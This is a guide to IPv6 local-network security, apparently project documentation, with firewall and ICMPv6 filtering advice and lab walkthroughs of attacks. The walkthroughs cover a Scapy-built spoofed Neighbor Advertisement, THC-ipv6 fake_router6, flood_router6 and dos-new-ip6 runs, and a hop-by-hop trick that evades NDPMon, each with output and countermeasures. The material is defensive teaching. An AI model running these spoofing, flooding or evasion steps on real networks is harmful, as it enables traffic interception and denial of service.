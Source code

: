 =============
IPv6 security
=============

--------------------
Something about IPv6
--------------------

- IPv6 development started in the early 1990 with few focus on security;
- Some IPv4 well known security breaches like arp poisoning, address spoofing, 
  etc. have their correspondent on IPv6;
- Some new IPv6 features create new vulnerabilities as well as transition process;
- There are already many IPv6 hacking tools available for anyone on the Internet;
- IPv6 deployment is still slow and vulnerabilities are not yet widely shared, 
  but this scenario is about to change.


It should be very easy to turn on IPv6 support and enable it to work, that
was the core idea of IPv6. You don't need dhcp anymore, everyone gets IPv6
address for free and basically everything gets configured automatically.
That's for client, but what should we do for router to make it work?

Well it turns out if you do that, you will be mostly very insecure. Not
only that some old attacks affect you, but there are also new attacks that
affect ipv6 users. To make ipv6 secure you must configure it corretly and
test configurations.


-----------------------------------------------    
New IPv6 features and related security problems
-----------------------------------------------

**1.Larger Adress Space:**

    end to end architecture allowing full tracking and some applications 
    that were impossible with IPv4 and NAT, which changes the way network
    scanning and reconnaisance works. New BOGON threats.
    
    "Bogon filtering is the practice of filtering bogons, which are bogus
    IP addresses. Bogon is also an informal name for an IP packet on the public
    Internet that claims to be from an area of the IP address space reserved,
    but not yet allocated or delegated by the Internet Assigned Numbers Authority
    (IANA) or a delegated Regional Internet Registry (RIR). The areas of
    unallocated address space are called the bogon space."

**2.Enhanced Header:**

    simpler and more efficient header with 40 fixed bytes and adds the
    possibility of extension headers which leads to vulnerabilities related
    to them, opening new venues for attacks.

**3. Improved ICMP (ICMPv6) and Multicast management:**

    increased efficiency, allows auto-configuration, neighborhood discovery
    and multicast group management. No authentication can lead to different
    older attacks and new ones. Multicast capabilities can be exploited to
    gather network informations (reconnaissance).

**4. Auto configuration:**

    makes end user configuration easier. A very useful feature for a "tipical"
    computer user, who wants automatization. That also makes end users exposed
    to certain malicious attacks, specially at public locations.

**5. Fragmentation only at source:**

    data transmission are more efficient and have less overhead on intermediary
    routers. That makes ICMPv6 control more difficult, which leads to new
    attacks based on forged ICMPv6 messages.

**6. Mobility support:**

    mobility support integrated in the protocol allows nomadic and roaming
    applications. That means we get new connection interceptions with new
    man-in-the-middle and DOS (denial of service) attacks.

**7. IPv4 to IPv6 transition**

    since IPv4 is said to be used for at least 20 more years, transitioning
    from IPv4 to IPv6 means that most systems will have to run both and also
    use several tunneling techniques, meaning network adiminstrators have to
    put more effort in configuring the network which means more chance of
    having security holes, leading to possible new exploits and attacks.

--------------------------------------------
Get rid of the nat, it's time for firewalls!
--------------------------------------------

With ipv6 we get rid of NAT and all your devices have a public ipv6 address.
But if nat presented security feature in ipv4 networks, now you have to configure
your firewall, and configure it correctly. You have to make sure what you will
let in your network. 

First things first, let's make something clear. We will only let some kind of traffic
inside out network. That's gona be TCP, UDP and some ICMPv6 types. It's very
important which ICMPv6 packets you let in, because as we will see later ICMPv6
has gained much signifficant role in ipv6.

________________
Firewalling IPv6
________________

There's nothing special about firewalling ip layer, except now you will have to
filter all traffic to all hosts on your network.

Besides that, make sure to filter RH0 header, and i will copy-paste article 
why, taken form `here <http://www.deployingipv6.net/index.php/archives/2007/06/03/rh0/>`_::

    There’s been rather a lot of talk about RH0, that’s IPv6’s type 0 routing header. 
    Broadly speaking, the header allowed you to list a set of places that the 
    packet should go to before its final destination. In the book we commented 
    that source routing used to be a security hot button in IPv4, when 
    authentication based on source IPv4 address was common and packet filtering 
    was not. 

    The problems that we were thinking of were discussed at least going back to 
    the in the mid 90s, and related to source routing allowing any host on the 
    Internet to impersonate any other host and get the returned packets. Usually 
    someone who is doing IP spoofing is making a blind attack, because the replies 
    to the packets that they sent would not be routed back to them. With source 
    routing, some IP stacks would reverse the route for the returned packets, 
    allowing the attacker to get their hands on the replies. With network services 
    like rlogin being common, this was a big threat.

    Some other firewall evasion attacks were also possible with source routed 
    packets, but I think the IP spoofing attacks were most prominent in people’s 
    minds.

    It seems that IPv6 source routing has become a security hot button, but for 
    a slightly different reason. As far as I know, no IPv6 stacks ever reversed 
    the route, so the IP spoofing attacks have never been possible. The firewall 
    evasion attacks are still there, which I don’t think surprised anyone. However, 
    the attacks that caused RH0 to make the press are amplification attacks. 
    The attacks were demonstrated by Philippe Biondi and Arnaud Ebalard and a 
    nice summary was written by Geoff Huston.

    Interest in amplification attacks has grown since attacks like the smurf 
    attack appeared sometime around 1997 and particularly since denial of service 
    attacks became big news. I’m not sure that when the original problems with 
    IPv4 source routing were being discussed that amplification attacks were 
    really considered seriously. I think the full impact of amplification attacks 
    in the modern Internet, particularly with the proliferation of botnets, is 
    yet to fully understood.

    The outcome for IPv6 is that RH0 is now treated as a unknown header by many 
    IPv6 implementations, and will probably be formally retired by the IETF shortly. 
    Other types of routing header (particularly RH2, which is used by Mobile IPv6) 
    should continue to be operate normally, as they do not pose the same risks. 
    I think the remaining interesting question is how do we design a version of 
    RH0 which is both safe and useful.

______
ICMPv6
______

With ipv6 icmp has gained much signifficant role, because it's not only
used for error control and flow control like in ipv4, but it has also replaced
functionality that arp used to handle. 
Fragmentation, Neighbor Discovery, and StateLess Address AutoConfiguration 
(SLAAC) represent essential functionality which is now performed using ICMP messages. 
At the same time ICMP messages are designed to be sent to multicast addresses 
instead of unicast addresses.

There are roughly several actions that could be taken to protect agains attackers
abusing ICMPv6:

* Configure firewall correctly to protect agains malicious ICMPv6 messages,
  this is important for all kinds of environments, because this layer
  of security newer hurts, but will in most cases save your ass.
* Use :term:`IPSec`, this is especially feasible for production environemnts.
* Use :term:`SEnD` mechanism instead of pure :term:`NDP` without using IPSec. 
  SEnD uses RSA key pairs instead of IPSec to secure various ICMP messages.
  Implementing this mechanism could be difficult, because not all devices support
  it, but is again feasible for production environemnts.
* Use "intelligent" deprecation tool like `NDPMon <http://ndpmon.sourceforge.net>`_.
* Enable ipv6 privacy extensions on hosts using your network.

Most of the :term:`THC-ipv6` tools are ment especially for pentesting ICMPv6 security.

__________________
Firewalling ICMPv6
__________________

:term:`ICMPv6 types` that should be accepted originating and going to the internet 
are following:

+----------------------------------------------+--------------------------------------------------------------------+
| Type                                         | Code                                                               |
+---------+------------------------------------+-------+------------------------------------------------------------+
| Value   | Meaning                            | Value | Meaning                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Error Messages                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    1    | Destination Unreachable            |   0   | no route to destination                                    |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | communication with destination administratively prohibited |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   2   | beyond scope of source address                             |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   3   | address unreachable                                        |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   4   | port unreachable                                           |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   5   | source address failed ingress/egress policy                |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   6   | reject route to destination                                |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   7   | Error in Source Routing Header                             |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    2    | Packet too big                     |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    3    | Time Exceeded                      |   0   | hop limit exceeded in transit                              |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | fragment reassembly time exceeded                          |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    4    | Parameter Problem                  |   0   | erroneous header field encountered                         |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | unrecognized Next Header type encountered                  |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   2   | unrecognized IPv6 option encountered                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    128  | Echo request                       |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    129  | Echo reply                         |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+

Everything else must get dropped!

On the local network the following additional ICMPv6 messages must be accepted:

+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    133  | Router Solicitation (NDP)          |   0   | From hosts to router                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    134  | Router Advertisement (NDP)         |   0   | From router to hosts                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    135  | Neighbor Solicitation (NDP)        |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    136  | Neighbor Advertisement (NDP)       |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    137  | Redirect Message (NDP)             |   0   | From router to hosts, only if there are multiple routers   |
+---------+------------------------------------+-------+------------------------------------------------------------+

------------------------------
IPv6, ICMPv6 and local attacks
------------------------------

In this section we will present several possible attacks inside ipv6 networks and
needed actions to prevent against. Also some tests will be written latter
to garantee that speciffic network is secure against those attacks.

__________________________________________________________________________
Icmp :term:`Neighbor Solicitation`/:term:`Neighbor Advertisement` spoofing
__________________________________________________________________________

**Description**

.. image:: _static/NAspoofing.png

The ICMP router discovery messages are called :term:`Router Advertisement`
and :term:`Router Solicitation`. Each router periodically multicasts a 
Router Advertisement from each of its multicast interfaces, 
announcing the IP address(es) of that interface. Hosts discover the 
addresses of their neighboring routers simply by listening for 
advertisements. When a host attached to a multicast link starts up, 
it may multicast a Router Solicitation to ask for immediate advertisements, 
rather than waiting for the next periodic ones to arrive; 
if (and only if) no advertisements are forthcoming, the host may retransmit 
the solicitation a small number of times, but then must desist from 
sending any more solicitations. Any routers that subsequently start up, 
or that were not discovered because of packet loss or temporary link 
partitioning, are eventually discovered by reception of their periodic 
(unsolicited) advertisements.

Attacker is able to redirect all local traffic to your own system by answering 
falsely to :term:`Neighbor Solicitation` requests.

**Attack**

There's quite easy to perfrorm this attack. Well you can use :term:`THC-ipv6` 
parasite6 tool, but we will look up how you can craft up required packets by hand.

What you need to do is create :term:`Neighbor Advertisement` packet with spoofed
mac address. To know whom to spoof you just need to wait for :term:`Neighbor Solicitation`
multicast messages from other hosts on the network.

Here is an example of crafting fake :term:`Neighbor Advertisement` using :term:`scapy`::

    >>> ls(Ether)
    dst        : DestMACField         = (None)
    src        : SourceMACField       = (None)
    type       : XShortEnumField      = (0)
    >>> ether=(Ether(dst='08:00:27:ad:c8:30', src='ba:2d:7e:de:15:c6'))
    >>> ls(IPv6)
    version    : BitField             = (6)
    tc         : BitField             = (0)
    fl         : BitField             = (0)
    plen       : ShortField           = (None)
    nh         : ByteEnumField        = (59)
    hlim       : ByteField            = (64)
    src        : SourceIP6Field       = (None)
    dst        : IP6Field             = ('::1')
    >>> ipv6=IPv6(src='fe80::a00:27ff:fedb:225c', dst='fe80::a00:27ff:fead:c830')
    >>> ls(ICMPv6ND_NA)
    type       : ByteEnumField        = (136)
    code       : ByteField            = (0)
    cksum      : XShortField          = (None)
    R          : BitField             = (1)
    S          : BitField             = (0)
    O          : BitField             = (1)
    res        : XBitField            = (0)
    tgt        : IP6Field             = ('::')
    >>> na=ICMPv6ND_NA(tgt='fe80::a00:27ff:fedb:225c', R=0)
    >>> ls(ICMPv6NDOptDstLLAddr)
    type       : ByteField            = (2)
    len        : ByteField            = (1)
    lladdr     : MACField             = ('00:00:00:00:00:00')
    >>> lla=ICMPv6NDOptDstLLAddr(lladdr='ba:2d:7e:de:15:c6')
    >>> packet = ether/ipv6/na/lla

Now we send this packet and at the same time at the victim machine we monitor
neighbours on link::

    >>> sendp(packet, iface='priv', loop=1, inter=5)

Before the attack router's mac is not redirected to attacker::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr 08:00:27:db:22:5c router STALE

After a few seconds of sending spoofed :term:`Neighbor Advertisement` packets,
mac address for router gets changed::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr ba:2d:7e:de:15:c6 STALE

**Countermeasures**

It's not easy to prevent against this kind of attacks, but there still exists
some security measures like:

* Enter static mac addresses of routers

    This is especially usefull on managed environemnts. Setting static mac
    addresses will ensure that they won't get overwritten by attacker sending 
    bogous :term:`Neighbor Advertisement` messages. 

    To set static router MAC addresses on linux you can use following command::

        vagrant@priv:~$ sudo ip -6 neigh replace fe80::MAC lladdr MAC nud permanent dev device

    Neighbour entry is now permanent and :term:`NDP` can't change it, however
    communication betwene host on the network can still get redirected over
    attacker.

* Use :term:`SeND` or :term:`CGA`

    :term:`SeND` is using :term:`CGA` (Cryptographically Generated Address)
    which makes shure that :term:`Neighbor Advertisement` messages are authentic.

    There exists opensource solution called 
    `NDProtector <http://amnesiak.org/NDprotector/>`_, which implements :term:`CGA`
    in userspace.

    .. note:: 

        :term:`CGA` is not wildly deployed and no production read software exists for
        some operating systems, so it is advised not to use it, yet.

* Tunneling solutions like :term:`IPSec` should be used, but they 
are not wildly deployed.

_____________________________________
:term:`Router advertisement` spoofing
_____________________________________

  **Description**

  When host connects to ipv6 network it usually sends :term:`Router Solicitation`
  to find about active routers in the network on multicast address. Router sends
  periodicly or demand :term:`Router Advertisement` messsages, to inform hosts
  about:

    * IPv6 address prefix (so they can configure their address)
    * DNS server
    * MTU size
    * Should hosts go look for a DHCPv6 server or not
    * NTP server address

  Attacker can spoof :term:`Router Advertisement` messages and perform some pretty
  nasty attacks.

  **Attacks**

  * :term:`Router Advertisement` fake router

    .. image:: _static/RAspoofing.png

    This attack spoofs :term:`Router Advertisement` messsages and tries to become
    router with highest priority.

    :term:`THC-ipv6` tool fake_router6 performs this attack. You can try it with
    these simple commands::

        (ethertest)offlinehacker@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    We can quickly see spoofed messages in wireshark and after few moments default
    route on victim gets poisoned with new entry::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    If we ping some external address like 2001:db8::fffe, we can quickly see
    that packets gets routed via attacker.

  * :term:`Router Advertisement` flood

    .. image:: _static/RAflood.png

    Hosts like Windows XP, 2003, Vista, 7, and 2003 don’t set a limit on the 
    amount of routers they like to listen to.  Whereas in Linux and Mac they 
    set their limit at right around 15.  If there are more than 15 different 
    RAs coming at them, they stop configuring the address and routes.

    If you send millions of RAs different IPv6 source addresses with different 
    IPv6 prefixes, you can, in a matter of seconds turn a fully functioning 
    Windows machine into a brick.

    :term:`THC-ipv6` tool flood_router6 does exactly that. There's a nice video
    demonstrating this attack avalible at 
    `http://www.youtube.com/watch?v=1EAnjZqXK9E <http://www.youtube.com/watch?v=1EAnjZqXK9E&feature=player_embedded>`_.

  **Countermeasures**

  :rfc:`6104` describes what we can do to prevent :term:`Router Advertisement` 
  spoofing:

  * Implement RA snooping

    Idea is that RAs observed from incorrect sources are blocked or dropped, 
    and not propagated through a subnet. One candidate solution in this space, 
    called "RA-Guard" proposed in :rfc:`6105`.

    .. note:

        This type of solution may not be applicable everywhere, e.g., in environments 
        where there are not centrally controlled or manageable switches.

    `Well it turns out that writing efficient RA guard is not that simple. <http://tachyondynamics.com/blog/?p=27>`_
    There are different evaison techniques, and one of interseting is by
    using fragmentation and putting :term:`Router Advertisement` right behind 
    destintion option header and inside fragmentation header. Once the destination 
    recives this packet (as by design) it puts the packet back together and sees 
    it as an IPv6 RA. 
    However, Destination Options are not meant to be read by intermediate 
    devices like firewalls and/or routers, and that is why the ease of evasion.

    .. image:: _static/2nd-technique-672px.gif

  * SEcure Neighbor Discovery (:term:`SeND`)

  * Using Host-Based Packet Filters

    In a managed environment, hosts could be configured via their
    "personal firewall" to only accept RAs from trusted sources.  Hosts
    could also potentially be configured to discard 6to4-based RAs in a
    managed enterprise environment.

  * Adding Default Gateway/Prefix Options to DHCPv6

    Adding Default Gateway and Prefix options for DHCPv6 would allow
    network administrators to configure hosts to only use DHCPv6 for
    default gateway and prefix configuration in managed networks, where
    RAs would be required today.  A new document has proposed such a
    default router option, along with prefix advertisement options for
    DHCPv6. Even with such options added to DHCPv6,
    an RA is in principle still required to inform hosts to use DHCPv6.

    An advantage of DHCPv6 is that should an error be introduced, only
    hosts that have refreshed their DHCP information since that time are
    affected, while a multicast rogue RA will most likely affect all
    hosts immediately.  DHCPv6 also allows different answers to be given
    to different hosts.

    While making host configuration possible via DHCPv6 alone is a viable
    option that would allow IPv6 configuration to be done in a way
    similar to IPv4 today, the problem has only been shifted: rather than
    rogue RAs being the problem, rogue DHCPv6 servers would be an
    equivalent issue. As with IPv4, a network would then still require
    use of Authenticated DHCP, or DHCP(v6) snooping.

    There is certainly some demand in the community for DHCPv6-only host
    configuration. While this may mitigate the rogue RA issue, it simply
    moves the trust problem elsewhere, albeit to a place administrators
    are familiar with today.

  * Different Tunneling solutions

    Usage of :term:`IPSec`, 802.1X and similar should give you another
    layer of protection, but will cost you performance.

  * Using an "Intelligent" Deprecation Tool

    It is possible to run a daemon on a link (perhaps on the router on
    the link) to watch for incorrect RAs and to send a deprecating RA
    with a router lifetime of zero when such an RA is observed.

    .. note::

        `NDPMon <http://ndpmon.sourceforge.net/>`_ is opensource tool that
        detects anomalies in ICMPv6 and can perform actions, like sending
        mail to administrator or similar.

  **Trying out NDPMon**

    We tried out how `NDPMon <http://ndpmon.sourceforge.net/>`_ performs
    ad "Intelligent" Deprecation tool.
    It should be easy to setup, and it should learn itself which hosts are
    routers and wich hosts are the neighbours.
    
    Version provided by different linux distribution package managers is sometimes old,
    it's advised to build it from source. You can find instructions at
    `http://ndpmon.sourceforge.net/index.php?n=Doc.Installation http://ndpmon.sourceforge.net/index.php?n=Doc.Installation`_.

    After you do that, you just need to configure it. Basicly you need to specify
    mac, link local addresses of your router interface and ipv6 network prefix::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <probes>
        <probe name="eth2" type="interface">
            <countermeasures_enabled>1<countermeasures_enabled>
        <routers>
            <router>
                <mac>08:00:27:db:22:5c</mac>
                <lla>fe80::a00:27ff:fedb:225c</lla>
                <param_curhoplimit>64</param_curhoplimit>
                <param_flags_reserved>0</param_flags_reserved>
                <param_router_lifetime>10800</param_router_lifetime>
                <param_reachable_timer>0</param_reachable_timer>
                <param_retrans_timer>0</param_retrans_timer>
                <param_mtu>0</param_mtu>
                <params_volatile>1</params_volatile>
                <addresses/>
                <prefixes>
                    <prefix>
                    <address>2001:db8:0:1::</address>
                    <mask>64</mask>
                    <param_flags_reserved>224</param_flags_reserved>
                    <param_valid_time>2592000</param_valid_time>
                    <param_preferred_time>604800</param_preferred_time>
                    </prefix>
                </prefixes>
            </router>
        </routers>
        </probe>
        </probes>
        [...]

    As you can see NDPMon can run it's probes on multiple interfaces, even on
    remote hosts.

    When there is no attacker NDPMon does not report any alert::

        vagrant@router:~$ sudo ndpmon
        ----- Initialization -----
        Reading configuration file: "/etc/ndpmon/config_ndpmon.xml" ...
        [settings] NDPMon general settings: {
            actions high priority {
                syslog
                no sendmail
                no pipe program
            }
            actions low priority {
                syslog
                no sendmail
                no pipe program
            }
            admin mail root@localhost
            ignor autoconf
            syslog facility LOG_LOCAL1
            no use reverse hostlookups
        }
        [parser] Finished reading the configuration.
        Reading neighbors file: "/var/local/lib/ndpmon/neighbor_list.xml" ...
        [parser] Finished reading the neighbor cache.
        ------------------

        [capture_pcap] Listening on interface eth2.
        ----- ND_ROUTER_ADVERT -----
        Reset timer for 8:0:27:db:22:5c fe80::a00:27ff:fedb:225c
        [parser] Writing cache...
        ------------------

    But if we want to advertise fake router, we can quickly notice new alerts::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        ------------------

    It would be fun to see what happens if we turn on countermeasures::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <countermeasures>
            <kill_illegitimate_router>RESPOND</kill_illegitimate_router>
            <kill_wrong_prefix>LAUNCH AFTER 10</kill_wrong_prefix>
            <propagate_router_params>CEASE AFTER 10</propagate_router_params>
            <propagate_router_dns>RESPOND</propagate_router_dns>
            <propagate_router_routes>RESPOND</propagate_router_routes>
            <propagate_neighbor_mac>RESPOND</propagate_neighbor_mac>
            <indicate_ndpmon_presence>SUPPRESS</indicate_ndpmon_presence>
        </countermeasures>
        [...]

    We start NDPMon with countermeasures enabled, and we can quickly see that
    they are pretty effective::

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        [countermeasures]: Sent zero lifetime advertisement for illegitimate router.
        ------------------

        ---- ICMP packet ----
        [countermeasures]: Packet dropped as it is a NDPMon counter measure.
        ------------------
       
    As we can see packet is dropped on router and zero lifetime advertisement for
    illegitimate router is send. We can quickly notice that default gateway does
    not get poisoned::

        vagrant@router:~$ sudo ndpmon

        [...]
        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec

    I was wondering if i could evade countermeasures if i turn on :term:`hop-by-hop`
    header using::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 -H priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    Well surprisingly it turned out it worked, NDPMon didn't detect fake 
    :term:`Router Advertisement` packets anymore and i was happily able to poison
    ipv6 routes once again::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 67sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    So it looks like NDPMon was not so affective after all and we can summarize
    that currently no effective opensource tool, besides tunneling mechanisms 
    exists that would protect against :term:`Router Advertisement` spoofing.

    .. note::

        NDPMon is not useless afterall, it is still able to identify and report
        about new hosts on a network and could be easyly used to monitor managed
        environemnts. At the same time smart attaker won't make any noise and
        only attack speciffic hosts on a switched networks and usually won't be
        detected.

_________________________________________
Denial of Service (DoS) with IP conflicts
_________________________________________

  **Description**
 
  Duplicate address detection (DAD) allows hosts to detect if some ipv6 address is
  already assigned when performing :term:`SLAAC`. The process can be described
  as following:

  1. Node tries to assign some address X to it's interface
  2. First it joins multicast group FF02::1 for add nodes and FF02::1:FF00:0:X
  3. It checks if there's any :term:`Neighbor Solicitation` query with same ip
  4. Then it sends :term:`Neighbor Solicitation` query with destination of
     FF02::1:FF00:0:X to ask if there's anybody with this ip on the network
  5. It checks for any :term:`Neighbor Advertisement` to address FF02::1

  In case of events 3 or 5, address is already taken, else node can use it.

  Well what happens if attacker allways responds to DAD with a positive, DDOS.

  **Attack**

  We will once again use `THC-ipc6` tool dos-new-ipv6::

    root@ubuntu-dev:~/projects/ethertest# dos-new-ip6 priv
    Started ICMP6 DAD Denial-of-Service (Press Control-C to end) ...
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
 
  As we can see host tried many times, but was unable to get ip. If we examine
  host ip configuration, ip is not assigned to interface::

    vagrant@priv:~$ ifconfig

    [...]
    eth1      Link encap:Ethernet  HWaddr 08:00:27:ad:c8:30  
            inet addr:10.1.0.18  Bcast:10.1.255.255  Mask:255.255.0.0
            inet6 addr: fe80::a00:27ff:fead:c830/64 Scope:Link
            UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
            RX packets:15677 errors:0 dropped:0 overruns:0 frame:0
            TX packets:1829 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000 
            RX bytes:1615960 (1.6 MB)  TX bytes:188906 (188.9 KB)
    [...]

  **Countermeasures**

  This attack shares a lot in common with term :term:`Router Advertisement`
  spoofing, so similar methods for prevention could be used.

  .. note::

    We decided to try out what NDPMon says about this attack, if tool is able to
    detect it. It turned out it was useless.

* Denial of Service (DoS) with Neighbor floods

There are also some other local attacks that are possible, but like presented
there are no effective mechanism, besides different tunneling to prevent attacks 
inside ipv6 networks.

---------------------
Secure implementation
---------------------

We have tried to prevent these attacks and find out that only tunneling mechanisms
like :term:`IPSec` or link based authentication mechanisms like :term:`802.11q`
can protect agains local attacks. 

.. note::

    For demonstration there's avalible a secure implementation of network
    using :term:`IPSec` avalible :doc:`here <linux_standard_corporate>`
